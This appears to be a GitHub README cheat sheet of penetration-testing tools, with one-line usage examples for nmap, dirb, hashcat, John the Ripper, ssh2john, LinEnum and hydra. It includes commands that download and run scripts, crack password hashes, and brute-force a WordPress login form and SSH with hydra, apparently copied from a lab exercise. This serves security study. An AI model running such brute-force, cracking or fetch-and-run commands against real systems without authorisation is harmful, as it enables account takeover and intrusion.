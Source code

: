 # AHackersToolbox
A list of Penetration Testing (Hacking) tools that can be used, as well as some helpful information and examples. For educational purposes only.

**Note**: No download procedures means it comes with kali linux.

![Monty Python](intruder.png) ![Monty Python](intruder.png)


Searchspoit
-----------

```
searchsploit -w wordpress 4.x
```


Nmap
----
Network scanning tool: Use this to identify open ports, running services and other information about the server.

```
nmap -v -A 1.2.3.4
```


DIRB
----
Web scanner. Use this to find file paths, directories, etc; of content on a webapp

```
dirb -w http://1.2.3.4
```


Enum4Linux
----------

```
```


Aircrack-ng
-----------
Brute force WiFi password cracking.

```
```


HashID
------
Use this to assist in determining what type of hash is being dealt with. The output of this can help you determine settings needed in hashcat or johntheripper

```
hashid -m -j hash.txt
```


SSH2John
--------
Strip an ssh2 format private key file of its encryption hash for cracking with JohnTheRipper.

Note: Private key files (ex. id_rsa) can be password protected to help secure them in case they are lost/stolen, ssh2john retrieves the hashed password.

**Download and Run**
```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
python ssh2john.py id_rsa > id_rsa.hash
```


JohnTheRipper
-------------
Brute force password cracking of hashed passwords

```
john --wordlist=/path/to/wordlist.txt --format=format hash.txt
```


HashCat
-------
Bruce force password cracking of hashes

List of all hashcat modes: https://hashcat.net/wiki/doku.php?id=hashcat

```
hashcat -m 3200 hash.txt /path/to/wordlist
```


LinEnum
-------
Use this to assist in locating potential methods of privelege escalation on linux.

**Download, make executable, and run**
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -s -r report -t
```


Hydra
-----
Network brute force login cracker

```
hydra -l Elliot -P fsocity.dic 10.10.103.0 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.0%2Fwp-admin%2F&testcookie=1:F=is incorrect'

hydra -l jan -P rockyou.txt ssh://1.2.3.4
```


GTFOBins
--------
Unix binaries for many different methods of privelege escalation

link: https://gtfobins.github.io/

